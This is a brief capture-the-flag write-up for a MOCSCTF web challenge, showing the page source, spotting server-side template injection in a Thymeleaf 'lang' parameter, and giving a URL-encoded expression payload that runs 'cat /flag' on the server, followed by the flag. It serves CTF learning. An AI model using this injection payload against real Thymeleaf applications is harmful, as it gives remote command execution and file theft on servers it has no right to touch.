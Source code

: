 # Writeup
Description:
http://34.136.219.163:31001

1. View the source code
```
<!DOCTYPE HTML>
<html lang="en">
<div>
    <h3>MOCSCTF</h3>
</div>
<div>
    <span> Hello, CTFer your language ?</span>
    <!-- /path?lang=xxx -->
</div>
</html>
```

2. you just need to realize it may be a ssti and try ssti payloads
it's easy, isn't it?. it's based on thymeleaf.

payload:

```
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("cat%20/flag").getInputStream()).next()%7d__::.x
```

## flag
MOCSCTF{OH_The_SsT1_1s_really_Wonderful}
